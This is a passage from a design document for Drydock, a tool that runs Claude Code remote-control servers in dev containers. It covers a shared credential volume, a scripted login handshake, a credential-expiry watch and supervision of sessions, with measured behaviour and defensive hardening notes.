- **The disk limit** (§12, *Disk full*). Each round also reads the filesystem holding the workspace root (statfs, the nearest existing ancestor on a first run) — **that filesystem only**: Docker's data root, where images are built, may be another, and is not checked. At or above `--disk-limit-percent` (default 90; 100 turns it off), a create, a start, a rebuild and an approval are refused after the cheaper refusals (a repository that already has a workspace, a workspace not in a state to start, are `409 in_progress` whatever the disk) and before anything is done — `507 disk_full`, no row, no clone, no token — since a clone or an image build that runs out of disk fails minutes in and leaves less room than it found. The pre-flight reads the disk at the request, not from the last round. A disk it cannot read refuses nothing: the check saves a doomed build, and no control relies on it.

> [!WARNING]
> **The label key is configuration, not a constant**
>
> Everything above adopts, stops, and deletes by label, so **whichever Drydock owns a label prefix owns those containers.** A second instance on the same daemon pointed at the same prefix will adopt the first's workspaces and its delete path will remove them — and the advisory lock in §12 does not help, because that lock is on a database file and the second instance has its own.
>
> That second instance is not hypothetical: it is what a test run is, and it is what a staging copy on the dev server would be. So the prefix is configured (default `drydock`, giving `drydock.workspace=<id>`), it is recorded in the database at first run, and **startup refuses to adopt a container whose label prefix is not its own** — it logs the container and leaves it alone, which is the same "adopt rather than kill someone's work" instinct as the orphan row above, applied one level up.

## 7. Claude Code auth

§2.1 established that Remote Control needs a real `/login` credential, and §2.2 that obtaining one inside a container is an interactive two-way handshake. The design question is therefore: **how many times must a human do that handshake?** The answer should be “once every few weeks, for all containers”, not “once per clone”.

### 7.1  One shared credential volume

Every container mounts the same named volume at its `CLAUDE_CONFIG_DIR`. Login happens once, in whichever container asks first (or in a dedicated scratch container), and the resulting `.credentials.json` is immediately visible to every other container that mounts it.

| Option | Logins required | Cost |
|---|---|---|
| **Shared volume** at `CLAUDE_CONFIG_DIR` | One, for all containers | Containers share config *and* history/state files. Concurrent token refresh is serialised by Claude Code itself (Spike 00). |
| ~~Per-container volume, credential copied in~~ | — | **Does not work at all.** Remote Control needs `oauthAccount.organizationUuid`, which lives in `.claude.json`, not in `.credentials.json` — a container with a perfectly valid copied credential makes model requests fine and refuses to start Remote Control ([Spike 02](../spikes/02-rc-restart.md)). It also costs plaintext access and loses refreshes, but those are moot. |
| Per-container login | One per clone | Defeats the point of the button. |

> [!NOTE]
> **Resolved by Spike 00 — the shared volume is safe.**
>
> The worry was that two containers refreshing at once could interleave and write a credential the other had already rotated away from. They cannot. Claude Code serialises refreshes with a `proper-lockfile`-style lock at **`$CLAUDE_CONFIG_DIR/.oauth_refresh.lock`** — inside the shared volume itself, so cross-container exclusion falls out of the sharing for free. Before refreshing it re-reads the credential (twice: once optimistically, once under the lock) and *adopts a peer's newer token* rather than issuing a second refresh. Writes are temp-file + `fsync` + `rename()`, so a reader never sees a torn file. Measured: four contending containers serialised cleanly; 16,185 reads across a live write, zero torn.
>
> **Take mitigation (a). Mitigation (b) is now struck** — giving each container its own writable config dir would put each lockfile in a *different* directory, destroying the exclusion that currently comes for free, and a read-only credential could never persist a rotated token. It is worse than the problem. Mitigation (c) is unnecessary.
>
> Two constraints follow. The credential volume **must be a local Docker volume, never NFS/CIFS** — the guarantee rests on `mkdir(2)` atomicity. And this is undocumented behaviour, measured against **Claude Code `2.1.246`**, so **re-run the spike on every Claude Code bump**. See [Spike 00](../spikes/00-shared-credential-volume.md).

Note also that the shared volume carries more than credentials: session history, project trust records, and settings all live under `CLAUDE_CONFIG_DIR`. Sharing them across containers is mostly a *feature* — workspace trust and settings apply everywhere without re-answering prompts — but it means one container's `/logout` logs out all of them. The UI should say so.

#### As built, Phase 5

- **One named volume, `drydock-claude-config` by default, at `/home/vscode/.claude`.** The name is configuration (`--claude-volume`), so a test Drydock never touches the real login; §6 step 4 makes it with the local driver and the instance's label prefix, and refuses one it did not make or that is not a plain local volume. The mount point is *not* configuration: it is the Feature's `CLAUDE_CONFIG_DIR`, which a Feature's `containerEnv` cannot take from an option, so it is a constant on both sides (`container.ClaudeConfigMountPoint`), like the broker socket's — and the Feature's `postCreateCommand` refuses a container in which it is not the one mount at `CLAUDE_CONFIG_DIR`, so the two cannot drift apart quietly.
- **Who owns it: Drydock's uid, set before anything mounts it.** `.credentials.json` is `0600`, so every workspace that can share the login must run as the uid that owns it. That uid is Drydock's own: the dev container CLI, which Drydock runs, updates every remote user to its uid by default (`updateRemoteUserUID`), and the login handshake writes the credential as it (§7.2). §6 step 4 — `EnsureClaudeVolume`, which the login calls too, so the two can never disagree — runs a busybox helper over the volume on every create, start, rebuild and login (root, `--network none`, a read-only root, only `CHOWN`, `FOWNER` and `DAC_OVERRIDE`, the volume alone, one constant line): an **empty** volume, whoever owns it, is given to Drydock's uid `0700`, and a marker directory, `.drydock-volume`, is left in it; a volume already Drydock's gets the marker if it lacks one; a volume holding anything else that another uid owns is refused with both uids named and nothing changed — re-owning a login another uid wrote is not a repair Drydock makes by itself.
  - *Why the marker.* Docker copies an image directory's owner and mode into a volume each time one is mounted over it **while the volume is empty**. The Feature makes `/home/vscode/.claude` in the image owned by the remote user's *build-time* uid, and the CLI's uid update re-owns only the remote user's home. So before this, a first workspace whose remote user was not `vscode` (`node`, say, or any user whose home is elsewhere) gave the fresh volume that build-time uid and failed its own preflight — measured in `test/container`, a remote user made at uid 1500 and moved to Drydock's: *"belongs to uid 1500, but the remote user dev is uid 1000"* — and a login attempted meanwhile was refused for the same owner. (Measured too: the failed workspace leaves the volume empty, so the next workspace to mount it copies again; the review's "every create after it" did not hold through creates, but the repository itself could never run.) A marker keeps the volume non-empty, so no image ever decides its owner. The dev container CLI's `--mount` cannot say `volume-nocopy`: it accepts only `type`, `source`, `target` and `external` (CLI 0.89.0's own pattern).
  - *A remote user that is not Drydock's uid* — `updateRemoteUserUID: false`, or an image that already has another user at Drydock's uid, in which case the CLI leaves the remote user alone — cannot read the login, and the Feature's preflight refuses that container, by name, saying why. That workspace alone: the volume keeps its owner, and every other workspace is unaffected (`test/container`). Repositories whose remote users differ in name but all take Drydock's uid share the login fine. Different uids cannot share one `0600` credential, and Drydock does not try.
- **Network filesystems are refused twice.** Step 4 refuses a volume whose driver is not `local` or that carries driver options (the local driver's `type=nfs`/`cifs`); the Feature refuses a `CLAUDE_CONFIG_DIR` whose filesystem type is `nfs*`, `cifs`, `smb*`, `9p`, `ceph`, `fuse.*` and the like, which also catches a host whose Docker data root is itself on one.

That shared fate has a second, sharper form. On a definitive `invalid_grant` — a genuinely dead login, a revoked session, someone typing `/logout` — Claude Code does not delete the credential, it **blanks it in place**: `accessToken` and `refreshToken` become `""` and `expiresAt` becomes `0`. Every container on the volume loses auth in the same instant. Spike 00 confirmed this is not a race artifact (the write is compare-and-swap guarded, so a container that lost a refresh race cannot blank a winner's fresh token, and a mere network failure leaves the file untouched) — but the blast radius is the whole fleet, so §7.3 has to treat a blanked credential as its own condition rather than folding it into "expired".

### 7.2  The login handshake

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="diagrams/02-login-handshake-dark.svg">
  
</picture>

**Fig 2** — *The two green hops are the ones Drydock cannot avoid owning: a human must carry the code from their browser back into a process Drydock holds the stdin of. Everything else could be automated; those two cannot.*

> [!NOTE]
> **Measured by [Spike 01](../spikes/01-login-handshake.md) — the handshake is scriptable, with three corrections.**
>
> The flow in a container is exactly the one above: `claude auth login --claudeai` prints an authorize URL whose `redirect_uri` is remote (`platform.claude.com`), then waits at `Paste code here if prompted >`. Writing a code into the PTY reaches that prompt and yields one of two verdicts. Three details are not what §7.2 assumed:
>
> 1. **The URL is ~465 characters and arrives unbroken.** ~~It wraps mid-token at terminal width~~ — retracted on re-measurement: at forced PTY widths of 80, 200 and 1000 the byte stream is identical and a *per-line* match yields the complete URL every time. The wrapping is the terminal soft-wrapping for display, visible through `tmux capture-pane` and absent from what the process writes. The pattern is `https://claude\.com/cai/oauth/authorize\?[A-Za-z0-9&=_%.~+-]+`, applied **per line, after stripping escapes**. **Do not join lines before matching.** The URL's line is followed by `Paste code here if prompted >`, and joining them turns `state=…yRz4` into `state=…yRz4Paste` — a URL that parses, carries every required parameter, and is wrong, so no validation can catch it. Earlier text here called de-wrapping "cheap insurance"; measured, it is the opposite. Assert the capture **parses and carries the expected query-parameter set**, never merely that the regex matched — a fragment passes a non-empty check and fails when a human clicks it.
> 2. **The pasted code is `<code>#<state>`**, and Claude Code rejects a missing half locally. So validate it in Drydock *before* writing to the PTY — a truncated copy is the likeliest user error, and this turns it into an instant, precise failure instead of a terminal round-trip. The rule is exactly one `#` with a non-empty half each side, **in printable ASCII only**: the looser `^[^#\s]+#[^#\s]+$` admits control bytes, and a `^C` written to that PTY kills the login. Surrounding whitespace is trimmed, and the trimmed value is what gets written. No validation error may echo the code.
> 3. **Match `Login successful` as a prefix, never as a whole line** — the binary carries several variants (`Login successful.`, `Login successful. Press …`). `Invalid code` is the other terminal verdict; those two plus the timeout are the whole state machine.

Implementation notes that matter:

- **Run it in a scratch container, not a workspace container.** Login is global to the shared volume, so binding it to one workspace makes the UI lie about scope. A tiny `drydock-auth` container that mounts only the credential volume is cleaner and can be started on demand.
- **Three config keys, not one trust dialog.** A headless `remote-control` is stopped by *three* gates, and only trust was on this list. All three live in `$CLAUDE_CONFIG_DIR/.claude.json`; the first two are **written by the feature** rather than cleared by running `claude` interactively, and `oauthAccount` comes from the login itself — the Feature never writes it (§11): `projects["<dir>"].hasTrustDialogAccepted`, `remoteDialogSeen` (an `Enable Remote Control? (y/n)` prompt that *hangs* rather than failing), and the `oauthAccount` record. See §11 and [Spike 02](../spikes/02-rc-restart.md).
- **Timeout and cancel.** The handshake holds a PTY open. Give it a five-minute deadline, a cancel endpoint, and a hard kill on the subprocess — a wedged login must never require restarting Drydock. Verified: a kill at the paste prompt writes no credential and leaves nothing to reap. A *wrong* code does not need a teardown at all — the process stays at the prompt and accepts another, with the same URL still valid, so the UI can simply ask again.
- **Never log the one-time code.** Note that the prompt does **not echo**, so the PTY buffer does not contain the code — the original reason for this rule does not hold on `2.1.246`. The rule stays for a better one: Drydock *receives* the code over HTTP and holds it in memory, where it can leak through a request log, an error string, an event row, or a crash dump. Keep not storing the PTY buffer verbatim as well, because non-echoing is undocumented behaviour of a pinned version.

> [!NOTE]
> **The handshake, as built (Phase 5, `internal/login`)**
>
> - **Where it runs: a short-lived container, as the note above says, and why each choice.** Not the host: the host need not have Claude Code, the volume's files are the daemon's to reach (§7.3), and a container gets exactly the environment it is given, so none of §2.1's variables can leak in from Drydock's own. Not a workspace: login is global to the volume. The container is the watch's Claude image (pinned base, exact version), run by ID; the shared volume is mounted **read-write for this one job**, at the workspaces' own path (`/home/vscode/.claude`, `CLAUDE_CONFIG_DIR`), so anything Claude Code records about where its config lives is what they find; `--cap-drop ALL`, `no-new-privileges`, a read-only root with a tmpfs `HOME`, the network it needs to exchange the code, and the label `<prefix>.login=<id>` — never `.workspace`, and not the watch's `.identity` either, because boot sweeps this label while the watch's first check runs beside it.
> - **Whose files.** The login runs as **Drydock's own uid and gid**: the dev container CLI gives every workspace's remote user the uid of the user running it, which is Drydock (§11), and `.credentials.json` is `0600`, so a login written as root would be unreadable in every workspace. Measured on `2.1.289`: Claude Code's one `os.userInfo()` call is inside a `try`, and it runs as a uid with no passwd entry. The volume is made and given its owner first, through §6 step 4's own `EnsureClaudeVolume` (§7.1, "Who owns it") — because a `docker run` against a missing volume would create it unlabelled, which step 4 then refuses, and so the login and every create agree on whose the volume is. A volume another uid has written to is refused with both uids named, and nothing is changed. (The login used to run its own ownership helper, which gave Drydock's uid only a root-owned empty volume, so an empty one a non-`vscode` first workspace had given another uid was refused.)
> - **The PTY is Drydock's**, started through `subproc.PTYRunner.StartPTY` — the session supervisor's own PTY start (§8), `internal/pty` underneath, with docker resolved by name and no shell — and handed to `docker run --interactive --tty` as its terminal: the CLI makes the container's terminal, sizes it to Drydock's, and relays both ways. **Measured through `docker run -t`, with fakeclaude in the container** (`test/container`): the container's terminal is a TTY sized to Drydock's PTY from its first byte, at 80 columns and at 1000; the URL the classifier reads per line is exactly the recording's at both widths; a typed code — and either half — is in nothing the stream gives back, at either terminal, while the verdict for it is; it arrives once, CR-framed; and it is in no `docker inspect`. Drydock allocates 1000 × 50, the width Spike 01's harness used, which costs nothing.
> - **The verdict is the classifier's.** `classify.ClassifyLogin` reads the stream after every read: a validated URL and the prompt are `awaiting_code`, and a URL that does not validate fails the login (`url`: a parser change, never a guess). After a code is typed, the verdict for *that* code is read from the stream up to the prompt plus what arrived since — so an earlier `Invalid code`, which stays in the stream because the prompt is never re-printed, cannot answer a later code. That window is the one design choice the tests caught only with the replay paced in small chunks: unpaced, every verdict arrives in one write and the bug hides.
> - **The code.** Checked with `classify.ValidateCodeShape` before the PTY, then typed as the trimmed code and one carriage return; the route reads the body into a buffer it zeroes, takes the code out as bytes and refuses a value with any JSON escape rather than decode one through a string, and the manager zeroes its copy once written. The shape check reads the bytes in place: a `string` would be an immutable copy no one can zero, and a test measures that the check allocates nothing. No refusal, event, view, log line or error carries any of it — the shape errors are constants and the route's detail names the rule. The PTY buffer exists in memory only, is never logged or stored, and is zeroed at the end.
> - **Time.** Five minutes from the URL, on the injected clock, is `timed_out`; a ten-minute start timeout covers everything before the URL, the image's first build (which needs the network) included. A wrong code keeps the deadline running.
> - **Every end cleans up before it is announced.** Success, timeout, cancel, a dead container, shutdown: the local process is killed and every container carrying the login's label is removed — by label, because a killed `docker run` CLI leaves its container running (measured) — and only then is the end announced, so a login reported over has nothing left and the next can start. A `docker run` CLI killed during its create leaves the daemon to finish that create, and the container lists only after the CLI is gone (measured on Docker 29.8.2: tens of milliseconds on an idle daemon, longer on a busy one), so when Drydock killed the CLI and nothing is listed yet, the removal keeps looking for up to three seconds; one that exited by itself is listed once. Every login also sweeps any earlier login's container before its own `docker run`, so one that landed later still goes at the next login rather than at the next boot. Boot sweeps any login container an earlier process left, and a launch waits for that sweep. A success is announced at once, the process given fifteen seconds to exit by itself, and then the watch is told (§7.3), so the fleet state comes from the one place that writes it. The supervisors waiting in `awaiting_login` resume on the `auth.identity` that check writes (§8), and on nothing the handshake sends them: a test drives both halves with fakeclaude, a wrong code — no event, no resume — as its control.
> - **Verified on a real account** (8 October 2026): the owner signed in from the deployment's Settings page (v0.4.4, runbook §8.6) and the handshake matched the real `Login successful`. It had been the one part measured only from the binary.

### 7.3  Expiry watch

A poller runs every six hours in the auth container and records `claude_identity.state`, `expires_at` and `login_expires_at` (§4) — the verdict as a stored value rather than one each reader re-derives. Three days before the **login** ends — `refreshTokenExpiresAt`, never the access token's `expiresAt` (§2.4) — the UI shows a persistent banner and every workspace card carries a warning dot. A **signed-out** fleet — `blanked` or `absent` — starts no session server and spends no restart: the supervisors wait in `awaiting_login` (§8), because restarting cannot fix a missing credential and a restart loop would just burn the log. **`expired` is not signed out** (§2.4): it dates the access token, which a starting server renews from the refresh token beside it, so servers start under it — parking them would leave nothing to do the refresh, and the fleet would wait for a sign-in it does not need. A refresh token that is in fact dead blanks the file on that start, and the next check says so.

**No terminal scraping is needed here.** [Spike 01](../spikes/01-login-handshake.md) found `claude auth status --json`, which is machine-readable by default. The poll is two mechanical reads:

| Read | Answers |
|---|---|
| `claude auth status --json` | `loggedIn:false` is the **signed-out / blanked** condition. The same call returns `orgId`, which is the field whose absence makes Remote Control refuse to start (§8) — so this doubles as a pre-flight the supervisor can run instead of launching a process that exits 1. |
| `.credentials.json → claudeAiOauth.refreshTokenExpiresAt` | The three-day countdown: the login's own end, by Claude Code's own rule (§2.4). Absent from a file written before Claude Code recorded it, and then there is no countdown. |
| `.credentials.json → claudeAiOauth.expiresAt` | Only whether the access token has lapsed — `expired`, which is informational. `auth status` does **not** report expiry — it answers `loggedIn:true` for a credential that expired an hour ago. Spike 00 established the file is written by atomic rename, so an unsynchronised read is safe. |

> [!IMPORTANT]
> **The access token's expiry is never a countdown** (measured 8 October 2026). Until v0.4.5 `expiring` was `expiresAt` within three days. On the owner's first real sign-in `expiresAt` was about eight hours out, because it dates the access token, so every login was "expiring" from the moment it was made: the banner said *"The Claude login expires in 8 hours"*, every card carried the dot, and Settings said the login expired soon — permanently, since every refresh moves the date another eight hours on. A warning that is always on teaches the operator to ignore the banner, which is the one place the fleet-wide fault (`blanked`) is announced. So:
>
> - **`expiring`** is `refreshTokenExpiresAt` at most three days away and not yet past, unless `expiresAt` is more than three days beyond it — Claude Code `2.1.289`'s `oauth-expiry` notice, clause for clause, so Drydock warns exactly when an interactive Claude Code would have, and the headless session servers never show that notice to anyone. It outranks `expired`: a login that needs a human matters more than an access token that does not.
> - **`expired`** is `expiresAt` past, the login not ending. Informational: starts are allowed (#61), the event is `info`, and nothing but Settings mentions it.
> - **`ok`** is everything else live — however soon `expiresAt` is.
> - **A `refreshTokenExpiresAt` already past is not a state of its own**, as it is not in Claude Code. Either the date was Claude Code's thirty-day default and the refresh token still works, or the next refresh is rejected and blanks the file, which is `blanked` — loud, fleet-wide, already designed for. Saying anything else in between would be a guess.
> - **No other signal was found.** The corpus's synthetic files, the recorded shapes and the binary carry no other date for the login. A second candidate — `expiresAt` staying in the past across checks while a session server runs, meaning refresh is failing — was rejected: a rejected refresh already blanks the file (Spike 00, result 4), and a refresh that fails on the network leaves the credential intact and the server unable to work anyway, which is the supervisor's fault to report, not the login's.
> - **A row stored under the old meaning** is turned into `ok` by migration 7; the boot check rewrites it within the minute. The UI also treats an `expiring` without `login_expires_at` — an old event replayed — as `ok`.

A **blanked** credential (`accessToken: ""`, §7.1) is a different condition from an expiring one and needs its own message. Expiring is a countdown to the login's end the user can ignore for three days; blanked means every workspace is already dead and the only fix is a new login handshake. Say "signed out, sign in again", not "expired".

One wrinkle: `auth status` reports `loggedIn:false` for a blanked credential **and** for a missing one, so it cannot tell them apart on its own. Distinguish by the file — present with empty token strings means blanked and *everyone* just lost access; absent means no one has ever signed in. Those deserve different words, which is the entire point of this section.

> [!NOTE]
> **The classifier's rules, as implemented (`internal/classify/identity.go`)**
>
> - **The file decides blanked and absent, before `auth status` is consulted at all.** `auth status` is the less stable input — it gained two keys in `2.1.289` — and it must never be able to hide the tombstone, the one failure that takes every workspace down at once. A broken or reshaped `auth status` therefore still yields `blanked` or `absent` when the file says so.
> - **Errors, never guesses:** an unreadable or empty credential file, exactly one token blanked (a shape Claude Code has never been seen to write), live tokens with no usable `expiresAt`, a `refreshTokenExpiresAt` that is present but not a positive integer, and live tokens beside `loggedIn:false`. None of these is ever reported as `absent` or `ok`. A *missing* `refreshTokenExpiresAt` is not an error: it only means no countdown.
> - **Boundaries are inclusive:** `expiresAt == now` is `expired`; a login exactly three days out is still `expiring`, and one at exactly now no longer is (Claude Code's own `m > 3d || m <= 0`).
> - **On an error, the poller keeps the previously stored state**, updates `last_checked_at`, and emits an event naming the problem. It never writes `ok` on the strength of an input it could not read.

> [!NOTE]
> **The watch, as built (Phase 5, `internal/identity`)**
>
> - **It reads the volume through containers, not from the host.** A named volume's files live under the daemon's own directory — root-owned, private to it, and under DinD or rootless Docker not on this filesystem at all — so Drydock reaches the volume the way every workspace does, by mounting it. And `auth status` needs Claude Code, which the host need not have. Each read is a `docker run --rm` with the volume mounted **read-only** at `CLAUDE_CONFIG_DIR` — so the watch can never write the credential, take the refresh lock, or touch `.claude.json` — `--network none`, a read-only root filesystem with a tmpfs `HOME`, `no-new-privileges`, and of root's capabilities only `DAC_READ_SEARCH`, because the file is `0600` and owned by the containers' user: that capability reads past permissions and writes nothing. Each carries `<prefix>.identity`, never `<prefix>.workspace`, so reconciliation never lists one.
> - **Two images, so the two verdicts that matter most depend on the least.** The credential file is read with the cleanup helper's digest-pinned busybox, through one constant shell line whose exit `3` is the only way "no file" is ever reported. `claude auth status --json` runs in a **Claude image Drydock builds locally**, once, from a digest-pinned base (`--claude-base-image`, node on bookworm-slim) and `@anthropic-ai/claude-code` at exactly `classify.ClaudeCodeVersion`; the build fails unless the binary reports that exact version, and the image is run by its ID. Its first build needs the network, and until it succeeds a live credential cannot be classified — but blanked and absent still can. The login handshake (§7.2) will run in the same image. `auth status` exits `1` for `loggedIn:false`, so `0` and `1` are both answers.
> - **The volume is checked before it is mounted.** `docker run -v` creates a missing volume, so a missing one is `absent` with no container at all — the watch never creates the volume it watches. And one it finds must carry `<prefix>.claude-config`, the label §6 step 4 puts on the volume it makes and without which step 4 refuses to mount it: a volume of the name that this Drydock did not make — another Drydock's, or a hand's — holds a login no workspace runs on, so reading it would report a fleet that does not exist. It is a failed check (`foreign_volume`), never a verdict, and its file is never read.
> - **`auth status` is read only when the file exists**, and its failure is passed to the classifier as no bytes rather than as an error, so it can only matter for a live file — the classifier's own rule order, kept at the I/O boundary.
> - **The warning window is configuration** (`--identity-expiring-window`, three days, Claude Code's own), passed to `classify.ClassifyIdentityWithin`, and measured against `refreshTokenExpiresAt` only; the interval is `--identity-interval`, six hours, plus a check at boot and `POST /api/auth/claude/check`.
> - **Stored and announced once.** `claude_identity` holds the verdict, the account (only beside a login), `expires_at` and `login_expires_at`, `logged_in_at` — when this login happened: the handshake's moment (§7.2), or, for a login made some other way, when the watch first saw it — and `last_checked_at`. A changed state, account or expiry, or a recovery from a failed check, emits `auth.identity` carrying the whole view; a failed check emits `auth.identity_check_failed` with `{check_error}`. A check nobody asked for — boot's, the interval's, the handshake's — that changed nothing writes nothing, so the log does not fill every six hours. A **requested** check is always answered (#81's review): a press of *Check now* waits for an event (frontend §4.2), and on a healthy login — the common case — the verdict does not change, so the watch writes `auth.identity_checked` with the stored view, `last_checked_at` moved, for every `Trigger` its check's own `auth.identity` or `auth.identity_check_failed` did not answer. A `Trigger` that joins a running check is answered when that check ends; one that comes after the check announced but before it ended gets its own `auth.identity_checked`, because a client that has already seen the announcement took its starting point after it. The request flag is cleared by the event that answers it and, at the end of a check, together with clearing "running", under one lock — so every `Trigger` is answered by the check it joined or starts one of its own. A check cut off before it finished checked nothing and answers nothing, and what a pending request gets then depends on whose context ended (round 1 of #85's review): the watch's own — shutdown — leaves it unanswered, and from then on `Trigger` returns `ErrShutdown` and the route answers `503 unavailable` instead of accepting a request nothing would answer; a caller's — the handshake's `LoggedIn` runs under a five-minute bound, shorter than a first build — is not the watch ending, so the request stays owed and a fresh check under the watch's context is started for it. A failure to store a verdict, or to read the view an answer carries, is answered `auth.identity_check_failed`, never "nothing has changed" and never nothing. It is a kind of its own rather than a repeated `auth.identity` because the supervisors resume on `auth.identity`, and a check that changed nothing should wake nobody. The failure sentence is chosen by which read failed — Docker, a volume this Drydock did not make, the image, the file, `auth status`, or the file and Claude Code disagreeing — and the service log adds a detail with no input bytes in it: `encoding/json`'s errors can quote what they choked on, so they are reduced to their shape.
> - **`logged_in_at` from the handshake.** A successful login calls `Watch.LoggedIn(at)`: it waits out a check already running (that one read the volume before the login), checks afresh, and the check that finds a live login records the handshake's moment — so a re-login over a live login is dated by itself, not by the one before. The moment is consumed by the next stored verdict whatever it is, so a handshake over a volume that still shows no login dates nothing later.
> - **Every check ends** (#37's review). Every workspace mounts the volume read-write, so any of them can put something at `.credentials.json` that `cat` never finishes — a FIFO (reproduced: the read hung until its deadline, the helper stayed running, the stored state froze, and every later check joined the hang), a symlink to `/dev/zero`, a file of gigabytes — and a daemon can stop answering. So: the reader's constant line refuses a symlink before following it and anything that is not a regular file before opening it, and reads with `head -c` one byte past the 64 KiB cap, which the caller refuses; each read (`--identity-check-timeout`, two minutes) and the image's first build (fifteen) has its own bound on the injected clock; a read cut off is a failed check, `timeout`, with its own sentence, keeping the stored state; and after any failed read the helpers carrying `<prefix>.identity` are removed — **a killed `docker run` client leaves its container running** (measured again here, as for the login) — with the first check after boot sweeping whatever an earlier process left. Checks run one at a time and sweep inside the one running, so a sweep never removes another check's helper, and a check that joins a running one waits a bounded time. A FIFO swapped in between the test and the read still blocks, and the timeout is what ends that. `Trigger`'s checks run under the watch's own context, which `Watch.Shutdown` ends and waits for before the database closes, and the login's post-login check runs under the login manager's.
> - **`expired` is a live login** (§2.4): its event is `info`, the banner and the cards say nothing about it, and Settings says the access token has lapsed and the next session server renews it.

## 8. Session supervision

One supervised process per workspace — which serves *many* sessions, not one:

```bash
devcontainer exec --id-label drydock.workspace=$WS \
  --remote-env CLAUDE_REMOTE_CONTROL_SESSION_NAME_PREFIX=$REPO_SHORT -- \
  bash -lc 'eval "$(drydock-secrets export || echo exit 69)" && cd /workspace && \
    exec claude remote-control \
      --spawn worktree \
      --capacity 4 \
      --verbose'
```

`remote-control` server mode is the right shape here rather than `claude --remote-control`: it is designed to run headless in a terminal, and `--spawn worktree` gives each on-demand session its own git worktree so two conversations against the same repo do not fight over the working tree. Since the clone is a real git repository on a host bind-mount, worktrees just work.

Three details in that invocation are load-bearing, and two of them exist because **the server is multi-session by default**:

- **The name prefix, not `--name`.** `--name` titles one session; the prefix names every session the server auto-creates, so the phone's list reads `myrepo-graceful-unicorn` rather than `a3f91c2-graceful-unicorn` derived from the container's opaque hostname. At fifteen workspaces this is the difference between a usable session list and a wall of hashes.
- **`--capacity 4`, because the default is 32.** Nothing stops a stray tap on a phone from opening a dozen agents against one repo, each burning tokens and each holding a worktree. Four is a guess; the point is that the design picks a number rather than inheriting one.
- **Secrets are loaded before `exec`, not after.** Every session this process ever serves inherits this environment (§10.3), so the fetch has to happen here. A broker failure fails the start rather than launching a server whose sessions all fail their first test run.

> [!NOTE]
> **Two kinds of session, and they behave differently**
>
> `--create-session-in-dir` is on by default, so the server pre-creates one session in `/workspace` itself — the primary checkout, on whatever branch the clone is on. Every *additional* session gets an isolated git worktree instead. That asymmetry is a sensible default rather than a wart, but it is worth knowing: the first session edits the branch you cloned, the rest do not.

| Supervisor duty | Approach |
|---|---|
| Load secrets at start | Fetch the workspace's granted secrets from the broker and materialize them into the process environment before `exec` (§10.3). |
| Notice sessions appearing | **A continuous tail, not a one-shot scrape.** Sessions are created on demand, possibly hours after startup, so the supervisor watches the `--verbose` stream and upserts `rc_session` rows as sessions are announced — taking ids **only from OSC 8 hyperlink targets** (`ESC ] 8 ; ; https://claude.ai/code/session_<id>…`, BEL-terminated on `2.1.289`, ST on `2.1.246`), **never from visible text**, because the model can print a `session_…` id in its own prose and a bare-id match would record it as a session. More of the terminal-scraping brittleness §12 already flags — there is no machine-readable alternative. |
| Detect “not logged in” | `claude remote-control` exits with an error when the account is ineligible. Treat a fast exit with that signature as `awaiting_login`, not as a crash — and do not retry. **Exit status is not diagnostic**: every startup failure exits `1`, so match on message text (see the table below). Better still, pre-flight with `claude auth status --json` (§7.3) and never launch a process that cannot succeed. |
| Restart policy | Exponential backoff 2s → 60s, cap 6 attempts in 10 min, then park in `degraded` with the last 200 lines retained. **A `409` is not a crash** — see below; it must not spend this budget. |
| Stop it with `SIGTERM`, escalate only on timeout | A graceful stop deregisters the folder, prints `Environment preserved`, and lets the next start in immediately. A `SIGKILL` of a server that had no live session blocks the next start for one to three minutes (Spike 02). The ordinary expectation for supervising a process, with a measured reason behind it. |
| Resume after a Drydock restart | `claude remote-control` in the same directory reconnects **the same environment and the same sessions**, after a graceful stop *and* after a hard kill, in about two seconds — [Spike 02](../spikes/02-rc-restart.md) confirms this. So the link on the workspace card stays valid across a Drydock restart. Re-derive `rc_session` rows from the tail rather than trusting the cached ones; it is a reconciliation, not a rebuild. |
| Liveness | The process staying up is not proof of connection. Poll the PTY for the connection-status line and downgrade to `degraded` on a failure notice. |
| Logs | 1 MB ring buffer per supervisor in memory. Never persist the full buffer — it can contain repo content and, across many sessions, rather a lot of it. ~~Last 200 lines mirrored to `event`~~ — struck as built: the event log is persisted and fed to every browser, and §13.5 keeps PTY buffers out of it; the lines stay in the ring, served by `GET …/logs`. |

> [!WARNING]
> **A refused start is four different conditions wearing the same exit code**
>
> [Spike 02](../spikes/02-rc-restart.md) found that every `remote-control` startup failure exits `1`. One of them should be retried and the rest must not be, so the supervisor has to read the message:
>
> | Signature | State | Retry? |
> |---|---|---|
> | `already served by a terminal` | the previous server's folder registration has not lapsed | **yes**, patiently |
>
> **Do not match on the number.** `2.1.246` prefixed this with `Registration: Failed with status 409:`; `2.1.289` dropped it, so the token `409` no longer appears anywhere in the message and a classifier keyed on it would reclassify the one retryable refusal as unrecognised. `2.1.289` also appends `Exiting in about 50 seconds.`, so the wait is announced — useful for the UI, still not a constant to code against.
> | `Workspace not trusted` | the feature or `postCreate` is broken | no — config error (§11) |
> | `Unable to determine your organization` | credential present, account record missing | no — `awaiting_login` (§7.3) |
> | `cannot be used with --spawn` | Drydock built a bad command line | no — bug |
>
> The `409` deserves its own state, *waiting for the previous server's registration to lapse*, retried on a flat interval and **not counted against the crash-restart budget**. It was measured at 60–200 s and is not a fixed value, so nothing should be coded against a constant. The exposure is narrow — it only happens when the dying server had no live session, which for a workspace with `--create-session-in-dir` on means a crash in the window before the first session exists — but that is exactly when a crash loop would be running, and against a 170-second refusal the 6-attempt budget is spent before the folder frees. The UI must say *waiting*, not *failed*; this is the §12 "a failure names its step" case.

> [!NOTE]
> **The durable handle is the environment, not the session**
>
> The server advertises one **environment id** per workspace and a single link, with a session count free on every repaint:
>
> ```
> Environment ID: env_01XySFjY3UuosSX8AhpjFNM3
>     Capacity: 1/4 · New sessions will be created in an isolated worktree
> Continue coding in the Claude mobile app or https://claude.ai/code?environment=env_01XySFjY3UuosSX8AhpjFNM3
> ```
>
> That `?environment=` URL is what the workspace card should carry, and `Capacity: N/4` is the count §8 wants for "link out with a count" — no enumeration required. Store the environment id in `workspace`; `rc_session` stays a cache of discovered session ids.
>
> Three scraping details from Spike 02, all of which cost time to find:
>
> - **Per-session URLs are wrapped in OSC 8 hyperlinks** (`\e]8;;<url>\e\\<label>\e]8;;\e\\`), so URL and label run together in the byte stream. Match the **id** — `session_[A-Za-z0-9]+` and `env_[A-Za-z0-9]+` — not the URL; anything parsing to whitespace captures the label too.
